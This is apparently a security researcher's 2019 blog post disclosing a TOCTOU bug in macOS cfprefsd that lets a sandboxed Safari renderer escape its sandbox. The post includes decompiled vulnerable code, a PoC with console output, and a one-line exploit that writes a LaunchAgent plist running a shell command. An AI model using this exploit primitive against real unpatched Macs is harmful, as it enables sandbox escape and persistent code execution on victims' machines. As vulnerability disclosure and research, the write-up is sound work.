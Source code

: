 ```yaml
---
layout:	post
title:	"One-liner Safari Sandbox Escape Exploit"
date:	2019-03-26
image:  img/2019-03-26-one-liner-safari-sandbox-escape/one-line-escape.webp
desc:   "TOCTOU bug in CoreFoundation and state change of sandbox lockdown on macOS Safari, leading to easy sandbox escape."
---
```


I am writing about a dead simple and reliable sandbox escape exploit which only have one line of code. Yeah I am sure it's an exploit, not just PoC. It has nothing to do with iOS.

The bug was refactored (or killed) before the beta release of Mojave. The latest vulnerable version is macOS High Sierra 10.13.6 (17G65).

Since it's part of a browser exploit chain you'll need a renderer exploit to gain shellcode execution first. If not, disable SIP so you can debug, attach lldb to a running `com.apple.WebKit.WebContent.xpc` and use the following command:

```
po CFPreferencesSetAppValue(@"Label", @"You know what should be put here", [(id)NSHomeDirectory() stringByAppendingPathComponent:@"Library/LaunchAgents/evil.plist"])
```

This line will generate a new plist under `~/Library/LaunchAgents`. With the proper arguments you can launch a Calculator or anything you like after re-logging into system.

What's going on here? Isn't that supposed to be blocked by the sandbox?

## The bug

The key is that there's a TOCTOU in `cfprefsd` that you **don't even need to race**.

There are [Preferences Utilities](https://developer.apple.com/documentation/corefoundation/preferences_utilities?language=objc) in CoreFoundation for reading and saving plist serialized preferences on macOS.

* <https://developer.apple.com/documentation/corefoundation/1515497-cfpreferencescopyappvalue?language=objc>
* <https://developer.apple.com/documentation/corefoundation/1515528-cfpreferencessetappvalue?language=objc>

Most developers are in favor of `NSUserDefaults`. They are similar for reading and setting serialized key value data, but `NSUserDefaults` is designed for containerized environment (like apps from App Store), while Preferences Utilities has an explicit argument for accessing data from other applications.

These plist files are usually located in:

* `/Library/Preferences` for root privileged processes
* `~/Library/Preferences` for normal, un-containerized process
* `~/Library/Containers/{bundle_id}/Data/Library/Preferences` for containerized apps from mac App Store

The `applicationID` can also be an absolute path, just like the given one-liner. But it's supposed to perform permission check on the parameter. Why did it even work?

These functions internally invoke XPC with `cfprefsd`, as implemented in `CoreFoundation`. The daemon surely will check the sandbox state and permission of the incoming message with `sandbox_check`.

Unfortunately there used to be an implementation error. It mistakenly caches the result of `sandbox_check` from the beginning, and keep trusting it during the whole session.

The vulnerable function:

```cpp
void ____CFPrefsMessageSenderIsSandboxed_block_invoke(int context, int param_2) {
	int sandboxed;
	undefined4 *puVar1;
	if (*(int *) (param_2 + 0x1c) == 0) {
		sandboxed = _sandbox_check(*(undefined4 *) (context + 0x18),0,
				*(undefined4 *)SANDBOX_CHECK_NO_REPORT);
		*(bool *)(*(int *)(*(int *)(context + 0x14) + 4) + 0x10) = sandboxed != 0;
		puVar1 = (undefined4 *)PTR__kCFBooleanFalse 0048b070;
		if (*(char *)(*(int *) (*(int *) (context + 0x14) + 4) + 0x10) != 0) {
			puVarl= (undefined4 *)PTR__kCFBooleanTrue0048b074;
		}
		*(undefined4 *)(param_2 + 0x1c) = *puVar1;
	} else {
		*(bool *)(*(int *)(*(int *)(context + 0x14) + 4) + 0x10) =
			*(int *)(param_2 + 0x1c) == *(int *)PTR__KCFBooleanTrue_0048b074;
	}
	return;
}
```

The client process first initiates an XPC connection with `cfprefsd`, its sandbox state is checked with `sandbox_check` function. The result is cached for the duration of this XPC session. Thus, new `CFPreference` operations are still allowed by `cfprefsd` after sandbox lockdown because of this cached result.

## PoC

Minimal test case here.

The following `CopyAppValue` request obviously will fail:

```objectivec
init_sandbox(); // copy the implementation from WebKit source
NSLog(@"read: %@", CFPreferencesCopyAppValue(CFSTR("CFBundleGetInfoString"), CFSTR("/Applications/Calculator.app/Contents/Info")));
```

```bash
bogon:Downloads vm$ ./a.out
2019-03-14 07:47:48.068 a.out[1028:33847] read: (null)
```

The console output for the first try:

> rejecting read of { /Applications/Calculator.app/Contents/Info, kCFPreferencesAnyUser, kCFPreferencesCurrentHost, no container, managed: 0 } from process 1028 because accessing preferences outside an application's container requires user-preference-read or file-read-data sandbox accessNow let's put an extra read operation before init_sandbox, the second call will surprisingly work:

If a process has accessed CFPreferences utilities before it goes into sandbox state, there will be no further sandbox check.

```objectivec
CFPreferencesCopyAppValue(CFSTR("TALLogoutSavesState"), CFSTR("com.apple.loginwindow"));
init_sandbox();
NSLog(@"after: %@", CFPreferencesCopyAppValue(CFSTR("CFBundleGetInfoString"), CFSTR("/Applications/Calculator.app/Contents/Info")));
```

```bash
bogon:Downloads vm$ ./a.out
2019-03-14 07:47:08.347 a.out[1026:33710] after: 10.13, Copyright © 2001-2017, Apple Inc.
```

## Study on WebKit

Let's take a look at WebKit's sandbox implementation.

According to the sandbox profile, `process-exec` is prohibited (all rules not explicitly allowed goes to `deny default`)

<https://opensource.apple.com/source/WebKit2/WebKit2-7601.1.46.125/WebProcess/com.apple.WebProcess.sb.in.auto.html>

WebKit has a multi-process architecture, so it needs to spawn the process before containerization. At the very beginning of the renderer process creation, it's just a normal process.

Unfortunately the renderer process has such interaction with `CFPreferences` during process initialization:

```
 frame #17: 0x00007fff454e015a CoreFoundation` _CFPreferencesCopyAppValueWithContainerAndConfiguration + 107
 frame #18: 0x00007fff47868b94 Foundation` -[NSUserDefaults(NSUserDefaults) init] + 1423
 frame #19: 0x00007fff47870c3a Foundation` +[NSUserDefaults(NSUserDefaults) standardUserDefaults] + 78
 frame #20: 0x00007fff42a3ba4e AppKit` +[NSApplication initialize] + 90
 frame #21: 0x00007fff71678248 libobjc.A.dylib` CALLING_SOME_+initialize_METHOD + 19
 frame #22: 0x00007fff7166800c libobjc.A.dylib` _class_initialize + 282
 frame #23: 0x00007fff71667a19 libobjc.A.dylib` lookUpImpOrForward + 238
 frame #24: 0x00007fff71667494 libobjc.A.dylib` _objc_msgSend_uncached + 68
 frame #25: 0x0000000100001627 com.apple.WebKit.WebContent` ___lldb_unnamed_symbol1$$com.apple.WebKit.WebContent + 519
 frame #26: 0x00007fff72743ed9 libdyld.dylib` start + 1
```

After the initialization, it calls ChildProcess::initializeSandbox to enter sandbox and load untrusted content.

<https://opensource.apple.com/source/WebKit2/WebKit2-7601.1.46.9/Shared/ios/ChildProcessIOS.mm.auto.html>

```cpp
void ChildProcess::initializeSandbox(const ChildProcessInitializationParameters& parameters, SandboxInitializationParameters& sandboxParameters)
{
#if ENABLE(MANUAL_SANDBOXING)
    NSBundle *webkit2Bundle = [NSBundle bundleForClass:NSClassFromString(@"WKView")];
    String defaultProfilePath = [webkit2Bundle pathForResource:[[NSBundle mainBundle] bundleIdentifier] ofType:@"sb"];
    if (sandboxParameters.systemDirectorySuffix().isNull()) {
        String defaultSystemDirectorySuffix = String([[NSBundle mainBundle] bundleIdentifier]) + "+" + parameters.clientIdentifier;
        sandboxParameters.setSystemDirectorySuffix(defaultSystemDirectorySuffix);
    }

    String sandboxImportPath = "/usr/local/share/sandbox/imports";
    sandboxParameters.addPathParameter("IMPORT_DIR", fileSystemRepresentation(sandboxImportPath).data());

    switch (sandboxParameters.mode()) {
    case SandboxInitializationParameters::UseDefaultSandboxProfilePath:
    case SandboxInitializationParameters::UseOverrideSandboxProfilePath: {
        String sandboxProfilePath = sandboxParameters.mode() == SandboxInitializationParameters::UseDefaultSandboxProfilePath ? defaultProfilePath : sandboxParameters.overrideSandboxProfilePath();
        if (!sandboxProfilePath.isEmpty()) {
            CString profilePath = fileSystemRepresentation(sandboxProfilePath);
            char* errorBuf;
            if (sandbox_init_with_parameters(profilePath.data(), SANDBOX_NAMED_EXTERNAL, sandboxParameters.namedParameterArray(), &errorBuf)) {
                WTFLogAlways("%s: Couldn't initialize sandbox profile [%s], error '%s'\n", getprogname(), profilePath.data(), errorBuf);
                for (size_t i = 0, count = sandboxParameters.count(); i != count; ++i)
                    WTFLogAlways("%s=%s\n", sandboxParameters.name(i), sandboxParameters.value(i));
                exit(EX_NOPERM);
            }
        }

        break;
    }
```

So `cfprefsd` will always treat it like a normal process.

![TOCTOU](img/2019-03-26-one-liner-safari-sandbox-escape/cfprefsd-toctou.svg)

No additional action required, just access arbitrary preferences from arbitrary domain under same uid with these utilities. Let's assume you've already archived rop or shellcode to `dlopen` the escape payload, all you need to put in the dylib constructor function is the following one line of code:

```objectivec
CFPreferencesSetAppValue(CFSTR("ProgramArguments"), (__bridge CFArrayRef)@[@"/bin/sh", @"-c", @"open -a Calculator"], (__bridge CFStringRef)[NSHomeDirectory() stringByAppendingPathComponent:@"Library/LaunchAgents/evil.plist"]);
```

LaunchAgent requires logging off, so I digged around and found another way to trigger the code execution outside instantly. Well this instant trigger actually has nearly 80 lines of code (make it clear in case of the Criticism for the title).

Here's the live demo chained with WebSQL renderer exploit from Pwn2Own 2017 (credit to Slipper & Kelwin). Don't have a working renderer exploit on High Sierra now so I use the old one.

## Demo

<iframe src="https://www.youtube.com/embed/rOcDnmZXAHU" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

This bug affects at least from El Capitan to High Sierra (10.13.6), or maybe even earlier version. No CVE assigned but I think it's worth branding.
